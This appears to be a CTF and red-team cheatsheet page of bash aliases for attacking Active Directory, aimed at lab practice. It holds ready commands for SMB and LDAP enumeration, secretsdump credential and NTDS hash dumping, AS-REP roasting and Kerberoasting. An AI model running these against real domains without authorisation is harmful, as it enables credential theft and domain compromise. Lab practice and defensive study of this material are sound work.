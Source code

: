 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#cheatsheet"
  - "#active-directory"
  - "#ctf"
  - "#windows-enumeration"
  - "#security"
  - "#network-security"
  - "#programming"
  - "#python-scripting"
  - "#opensource"
  - "#red-team"
  - "#penetration-testing"
description:
author:
created: Sunday, June 29th 2025, 12:44:04 am
source:
title: Page 2 - AD
date modified: Sunday, June 29th 2025, 12:44:14 am
---
```


# Page 2 - AD

**Active Directory (AD)-related aliases** for CTF players doing **Windows domain enumeration**, **Kerberos abuse**, **SMB attacks**, and **privilege escalation**. These are particularly useful for **internal AD labs**, **HTB Active Directory boxes**, and **Red Team simulations**.

---

## 🏢 Active Directory Enumeration & Attacks

```bash
# 🔎 SMB & NetBIOS
alias smbshare='smbclient -L //TARGET -N'
alias smbconnect='smbclient //TARGET/SHARE'
alias smbuser='smbclient -L //TARGET -U'
alias enum4='enum4linux-ng -a'
alias enumuser='enum4linux -u USERNAME -p PASSWORD -a TARGET'
alias crackmap='crackmapexec smb'
alias smbmap='smbmap -H'
alias nbtscan='nbtscan -r TARGET_SUBNET'

# 🧠 LDAP & Kerberos
alias kerbrute='python3 ~/tools/kerbrute/kerbrute.py'
alias ldapenum='ldapsearch -x -H ldap://TARGET -s base'
alias adenum='python3 ~/tools/ADEnum/ADEnum.py'
alias bloodhound='bloodhound-python -u USER -p PASSWORD -dc-ip DC_IP -c all'

# 🗂️ Password & Hash Dumping
alias secretsdump='secretsdump.py DOMAIN/USER:PASSWORD@TARGET'
alias dumpntds='secretsdump.py -just-dc DOMAIN/USER:PASSWORD@DC_IP'
alias hashgrab='impacket-secretsdump'
alias ridbrute='rpcclient -U "" TARGET -N -c "enumdomusers"'

# 📜 Kerberos Ticket Attacks
alias asreproast='GetNPUsers.py DOMAIN/ -usersfile users.txt -no-pass -dc-ip TARGET'
alias kerberoast='GetUserSPNs.py DOMAIN/USER:PASSWORD -dc-ip TARGET -request'
alias tgt='klist'
alias renewtgt='kinit USERNAME@DOMAIN'
ptt() {
  export KRB5CCNAME="FILE:/tmp/krb5cc_$(uuidgen || date +%s)"
  export KRB5_CONFIG="${HOME}/krb5.conf"
  echo "[+] KRB5CCNAME set to: ${KRB5CCNAME}"
}

# 🛠️ Tools & Shortcuts
alias cme='crackmapexec'
impacket() {
  cd ~/tools/impacket && source venv/bin/activate
}
alias blood='cd ~/tools/BloodHound && neo4j console'
alias neo4jstart='sudo systemctl start neo4j'
alias neo4jstop='sudo systemctl stop neo4j'

# 🪓 Attack Chains
alias kerbcheck='nmap --script "krb5-enum-users" -p 88 TARGET'
alias noauthrpc='rpcclient -U "" -N TARGET'
alias authrpc='rpcclient -U USER%PASSWORD TARGET'

# 📚 Active Directory Cheatsheets
alias adhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/active-directory-methodology'
alias privhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation'
```

---

## ✅ Additional Tools Recommended

Make sure you have the following tools installed (some aliases reference them):

- [Impacket](https://github.com/SecureAuthCorp/impacket)
    
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
    
- [Kerbrute](https://github.com/ropnop/kerbrute)
    
- [BloodHound + Neo4j](https://github.com/BloodHoundAD/BloodHound)
    
- [Enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
    
- [ldapsearch (OpenLDAP)](https://linux.die.net/man/1/ldapsearch)
    
- [rpcclient (Samba)](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)

---

## 📥 Install and Activate

To include these in your setup:

### 1. Add to `~/.ctf_aliases` or `.bashrc`/`.zshrc`

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Then Source It:

```bash
source ~/.ctf_aliases
```

---

## 🧠 Learn More

- [HackTricks: Active Directory](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    
- [PayloadsAllTheThings – Windows & AD](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Active%20Directory%20Attack%20Cheatsheet)
    
- [Red Team Notes by RastaMouse](https://rastamouse.me/)
